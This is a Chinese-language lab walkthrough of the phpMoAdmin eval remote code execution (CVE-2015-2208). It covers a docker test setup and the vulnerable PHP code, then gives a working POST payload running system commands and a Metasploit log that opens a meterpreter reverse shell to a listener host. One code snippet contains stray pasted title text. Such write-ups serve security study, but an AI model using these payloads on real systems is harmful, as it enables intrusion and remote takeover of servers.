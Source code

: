 ### phpmoadmin 远程代码执行 （CVE-2015-2208）

描述: phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。 moadmin.php 开头检查POST是否传输了object，随后内包含的if进行判断，这个过程即调用了当前类的saveObject方法，POST传入object参数的值带入eval后就造成了代码执行。

#### 环境搭建

靶机：CentOS7（192.168.2.101:8888）

利用vulhub一键搭建docker环境：

```bash
docker pull ptantiku/cve-2015-2208
sudo docker run -d -p 8888:80 ptantiku/cve-2015-2208
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220107101000.png)

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220107101031.png)

至此 环境搭建完毕

<br>

#### 漏洞分析

```www/html/moadmin.php```第693行：

```php
public function saveObject($collection, $obj) {
        eval('$obj=' . $obj . ';'); //cast from string to array
        return $this->mongo->selectCollection($collection)->save($obj);
    }
```

发现了eval函数，看看那些函数调用了saveObject

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220107102845.png)

发现该函数只被调用了一次

```www/html/moadmin.php```第787行：

```php
if (isset($_POST['object'])) {
            if (self::$model->saveObject($_GET['collection'], $_POST['object'])) {
                return $this->_dumpFormVals();
            } else {
                $action = 'editObject';
                $_POST['errors']['object'] = 'Error: object could not be saved - check your array syntax.';
            }
        } else if ($action == 'creatphpMoadmin CVE-2015-2208 远程代码执行漏洞分析eCollection') {
            self::$model->$action($_GET['collection']);
        } else if ($action == 'renameCollection'
                   && isset($_POST['collectionto']) && $_POST['collectionto'] != $_POST['collectionfrom']) {
            self::$model->$action($_POST['collectionfrom'], $_POST['collectionto']);
            $_GET['collection'] = $_POST['collectionto'];
            $action = 'listRows';
        }
```

上文代码为函数__construct的代码段_

可以发现eval处的$obj是post传输进来的，参数名为object

构造函数（constructor method，也称为构造器）是类中的一种特殊函数，当使用 new 关键字实例化一个对象时，构造函数将会自动调用。

很明显，在1977行处实例化了moadminComponent对象

```php
$mo = new moadminComponent;
```

因此漏洞出现的位置和原理已经很明确了。

<br>

#### 漏洞利用

构造payload：

```php
object=1;system("whoami");
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220107104405.png)

命令执行成功！

<br>

msf中也继承了对该漏洞的利用

```bash
msf6 exploit(multi/http/phpmoadmin_exec) > show options 

Module options (exploit/multi/http/phpmoadmin_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.2.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8888             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phpmoadmin      yes       The URI path of the PHPMoAdmin page
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.104    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHPMoAdmin


msf6 exploit(multi/http/phpmoadmin_exec) > exploit 

[*] Started reverse TCP handler on 192.168.2.104:4444 
[*] Executing payload...
[*] Sending stage (39282 bytes) to 192.168.2.101
[*] Meterpreter session 1 opened (192.168.2.104:4444 -> 192.168.2.101:54428) at 2022-01-07 11:13:03 +0800

ls

meterpreter > 
meterpreter > ls
Listing: /var/www/html/phpmoadmin
=================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100644/rw-r--r--  113923  fil   2013-05-28 13:08:52 +0800  moadmin.php

meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > ls
Listing: /var/www/html/phpmoadmin
=================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100644/rw-r--r--  113923  fil   2013-05-28 13:08:52 +0800  moadmin.php

meterpreter > shell
Process 96 created.
Channel 0 created.
ls
moadmin.php
```

